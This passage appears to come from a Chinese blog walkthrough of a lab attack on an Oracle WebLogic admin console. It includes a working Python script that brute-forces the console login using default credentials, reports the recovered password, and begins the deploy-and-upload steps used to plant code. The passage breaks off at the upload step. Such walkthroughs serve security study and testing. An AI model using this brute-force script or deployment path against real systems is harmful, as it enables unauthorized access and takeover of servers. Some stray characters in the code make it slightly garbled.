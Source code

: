 访问后台登录处，[http://192.168.10.129:7001/console/login/LoginForm.jsp](http://192.168.10.129:7001/console/login/LoginForm.jsp)



![](https://img-blog.csdnimg.cn/20200110145153376.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



使用如下脚本爆破



```
import requests       
url = "http://192.168.10.129"      
pwddict = ['WebLogic', 'weblogic', 'Oracle@123', 'password', 'system', 'Administrator', 'admin', 'security', 'joe', 'wlcsystem', 'wlpisystem']      
for user in pwddict:      
    for pwd in pwddict:      
        data = {      
                'j_username':user,      
                'j_password':pwd,      1
                'j_character_encoding':'UTF-8'      1
                }      1
        req = requests.post(url+':7001/console/j_security_check', data=data, allow_redirects=False, verify=False)      1
        if req.status_code == 302 and 'console' in req.text and 'LoginForm.jsp' not in req.text:      1
            print('[+] WebLogic username: '+user+'  password: '+pwd)
```




如下，爆破得到账号密码：WebLogic   Oracle@123



![](https://img-blog.csdnimg.cn/2020011011194047.png)



登录进后台



![](https://img-blog.csdnimg.cn/20200110145023443.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



点击部署——>安装



![](https://img-blog.csdnimg.cn/20200110161323881.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



点击上传文件  

![](https://img-blog.csdnimg.cn/20200110161400348.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
